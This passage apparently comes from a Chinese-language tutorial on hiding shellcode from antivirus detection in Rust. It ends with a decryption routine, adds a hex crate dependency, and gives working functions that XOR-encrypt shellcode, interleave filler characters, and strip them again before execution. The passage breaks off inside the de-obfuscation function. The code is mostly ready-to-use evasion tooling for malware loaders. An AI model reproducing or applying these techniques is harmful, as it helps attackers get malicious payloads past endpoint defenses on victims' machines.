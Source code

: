         let mut buf = ciphertext.to_vec();  
        let shellcode = cipher.decrypt(&mut buf).unwrap();  
      
        shellcode.to_vec()  
    }  
    

### 添加随机字符

同样先在`Cargo.toml`文件中添加下面的依赖。

    
    
    [dependencies]  
    hex = "0.4.3"

下面是结合异或加密和添加随机字符的代码，`xor_encrypt`将对shellcode与key进行异或，使用`hex::encode`将异或结果转为十六进制字符串返回，方便后面添加随机字符。`add_random`迭代`xor_encrypt`返回的字符串的每个字符，并在每次迭代时添加一个随机字符。最后，使用
`hex::encode` 将结果转为十六进制字符串返回。`xor_decrypt`和`rm_random`是对应的二次异或和删除随机字符的函数。

    
    
    fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {  
        let mut encrypted = Vec::new();  
        for (i, &b) in shellcode.iter().enumerate() {  
            encrypted.push(b ^ key[i % key.len()]);  
        }  
        hex::encode(&encrypted)  
    }  
      
    fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {  
        let encrypted = hex::decode(encrypted).expect("Error");  
      
        let mut decrypted = Vec::new();  
        for (i, &b) in encrypted.iter().enumerate() {  
            decrypted.push(b ^ key[i % key.len()]);  
        }  
        decrypted  
    }  
      
    fn add_random(xor_string: &str, key: &str) -> String {  
        let mut result = String::new();  
      
        for (i, c) in xor_string.chars().enumerate() {  
            result.push(c);  
            result.push(key.chars().nth(i % key.len()).unwrap());  
        }  
        hex::encode(&result)  
    }  
      
    fn rm_random(random_string: &str) -> Vec<u8> {  
        let mut result = String::new();  
      
        let random_string = hex::decode(random_string).expect("Invalid String");  
        let random_string = match std::str::from_utf8(random_string.as_slice()) {  
            Ok(s) => s,  
            Err(_) => "Invalid UTF-8 sequence",  
        };  
      